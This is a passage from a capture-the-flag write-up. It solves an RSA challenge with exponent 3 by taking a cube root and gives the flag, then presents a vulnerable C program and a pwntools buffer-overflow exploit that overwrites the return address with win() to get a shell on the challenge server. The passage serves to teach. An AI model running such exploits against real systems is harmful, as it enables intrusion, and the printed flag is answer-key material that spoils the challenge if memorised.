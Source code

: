 Since `e = 3`, it is quite small (compared to say, 65537). If the original message was short enough (i.e. `m^3 < N`), then we can just take the cube root of the ciphertext `c`.

Using a [cube root calculator](https://www.dcode.fr/cube-root), we get: 
```python
m = 164587995846552213349276905669580061809447554828318448024777341
```

Just like the previous challenge, we then [convert this number to hexadecimal](https://www.rapidtables.com/convert/number/decimal-to-hex.html), and then [convert that hexadecimal number to ASCII](https://www.rapidtables.com/convert/number/hex-to-ascii.html), which will give us the flag.

**Flag**: flag{w3_need_7o_g0_d3ep3r}  
**Tools**: Dcode's [cube root calculator](https://www.dcode.fr/cube-root); RapidTables's [Decimal to Hex](https://www.rapidtables.com/convert/number/decimal-to-hex.html) and [Hex to ASCII](https://www.rapidtables.com/convert/number/hex-to-ascii.html)  
**Further reading**: [An attack on RSA with exponent 3](https://www.johndcook.com/blog/2019/03/06/rsa-exponent-3/)

# PWN
## The Oracle
> Would you still have broken it if I hadn't said anything?

We are given a binary executable and a C file as well. Looking inside our given C file:
```c
void win() {
    char* argv[] = { NULL };
    char* envp[] = { NULL };

    execve("/bin/sh", argv, envp);
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[16];

    printf("Know Thyself.\n");
    fgets(buffer, 128, stdin);
}
```

It looks like we have a buffer overflow-type situation. We want to overflow the `buffer[]` array, which is 16 bytes long, and then we also want to call the `win()` function, which will help us get a shell (by running `execve('/bin/sh')`).

After some trial and error, I discovered that I could get the executable to hang when I entered in 24 bytes. So, I used `pwntools` to write my exploit, having learned from Down Under CTF:
```python
from pwn import *

elf = ELF("./theoracle") # reference file

p = remote("chal.ctf.b01lers.com", 1015)
payload = b"A"*24 + p64(elf.sym["win"]) + b'\n'

p.recvline()
p.sendline(payload)

p.clean()
p.interactive()
```
